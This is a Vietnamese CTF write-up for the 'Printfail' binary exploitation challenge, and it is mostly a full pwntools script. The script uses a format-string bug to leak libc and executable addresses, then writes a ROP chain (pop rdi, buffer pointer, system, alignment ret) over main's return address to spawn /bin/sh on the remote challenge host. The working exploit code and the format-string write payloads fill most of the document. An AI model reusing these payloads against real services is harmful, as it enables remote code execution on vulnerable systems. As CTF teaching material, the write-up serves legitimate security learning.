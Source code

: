 ### Printfail
- Đề cho ta một file binary duy nhất
- Vậy ta decompile bằng ida

![](https://i.imgur.com/NVH3ncR.png)

- Ta vào hàm `run_round` thì thấy nó sẽ update biến `v4` thành False nếu như chuỗi ta nhập lớn hơn 1. Ngoài ra cũng có lỗi format string ở `printf`.

![](https://i.imgur.com/gaBZYaB.png)

- Do đó ta sẽ lợi dụng fmt để write biến v1 lại là 1 như bình thường để loop tiếp.
- Ta checksec thì nhận thấy bài này full protections do đó overwrite GOT không khả thi. Do đó ta có hướng overwrite return address của main thành một loạt rop gadgets để lấy shell.
- Để thực hiện ý tưởng trên thì ta phải leak libc, leak exe để tính base.
- Tổng kết lại hướng làm của mình : leak libc -> leak exe -> overwite return address main thành pop rdi ret -> overwrite ret

![](https://i.imgur.com/E6OGdTP.png)


- Trước system mình có thêm địa chỉ của ret vì khi nó call pop rdi xong lần ret về đầu tiên call system thì bị xmm1, nên mình thêm ret trước đó để align rsp stack chia hết cho 16

- Script (khá dài và mình lười tối ưu):
```python 
from pwn import * 

exe = ELF("printfail_patched")

libc=ELF("libc6_2.31-0ubuntu9.9_amd64.so")

p=remote("puffer.utctf.live",4630)
p.sendlineafter(b'No do-overs.\n',b'A%7$n%13$llx')
p.recvuntil(b'A')
leak ='0x0000'+ p.recvline()[:-1].decode('utf-8')
leak = int(leak,16) 

libc.address = leak - 147587 
print('libc base: ',hex(libc.address))

p.sendlineafter(b'chance.\n',b'A%7$n%9$llx')
p.recvuntil(b'A')
exe_leak ='0x0000'+ p.recvline()[:-1].decode('utf-8')
exe_leak = int(exe_leak,16) 

print("exe leak: ",hex(exe_leak))
exe.address = exe_leak - 4816 
print("exe base : ",hex(exe.address))

p.sendlineafter(b'chance.\n',b'A%7$n%15$llx')
p.recvuntil(b'A')
exe_off='0x0000'+ p.recvline()[:-1].decode('utf-8')
exe_off= int(exe_off,16) 
print("exe off: ",hex(exe_off))
################step1########################
first_add = exe_off-240
log.info(hex(first_add))

writee = first_add & 0xffff

payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
pop_rdi_ret = exe.address + 0x0000000000001373
print("pop_rdi_ret: ",hex(pop_rdi_ret))
writee = pop_rdi_ret& 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()

p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
print("add 2")
p.sendlineafter(b'chance.\n',payload)

writee = pop_rdi_ret >> 16 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


writee = pop_rdi_ret >> 32 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
print("pop rdi :",hex(pop_rdi_ret))
###############step2#####################
buf_add = exe.address + 0x0000000000004040

first_add = exe_off - 232
writee = first_add & 0xffff
print("write : ",hex(writee))
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

writee = buf_add & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
print("add 2")
p.sendlineafter(b'chance.\n',payload)

writee = buf_add >> 16 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


writee = buf_add >> 32 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
####################step3##################
libc_system = libc.sym['system'] 
print("libc: ",libc_system)

first_add = exe_off - 216 

writee = first_add & 0xffff
print("write : ",hex(writee))
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

writee = libc_system& 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
print("add 2")
p.sendlineafter(b'chance.\n',payload)

writee = libc_system >> 16 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


writee = libc_system >> 32 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
###############################################
buf_add = exe.address + 0x000000000000101a 
first_add = exe_off - 224

writee = first_add & 0xffff
print("write : ",hex(writee))
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

writee = buf_add & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
print("add 2")
p.sendlineafter(b'chance.\n',payload)

writee = buf_add >> 16 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)

first_add += 2
writee = first_add & 0xffff
payload = f'A%7$n%{writee-1}c%30$hn'.encode()
p.sendlineafter(b'chance.\n',payload)


writee = buf_add >> 32 & 0xffff
payload = f'A%7$n%{writee-1}c%43$hn'.encode()
p.sendlineafter(b'chance.\n',payload)
############################################
p.sendlineafter(b'chance.\n',b'/bin/sh\x00')
###########################################
p.interactive()

```
